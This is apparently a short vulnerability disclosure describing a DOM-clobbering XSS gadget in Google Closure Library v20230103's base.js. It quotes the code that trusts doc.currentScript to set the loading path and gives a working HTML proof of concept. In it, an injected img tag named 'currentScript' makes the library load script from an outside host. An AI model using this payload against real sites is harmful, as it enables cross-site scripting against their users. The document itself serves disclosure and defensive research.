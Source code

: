 ## Google Closure Library

### Meta

+ Library: Google Closure
+ Stars: 4.9K
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js`


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...


## PoC

```html
<!--Library-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999/base.js"></img>
<!--Payload-->
```
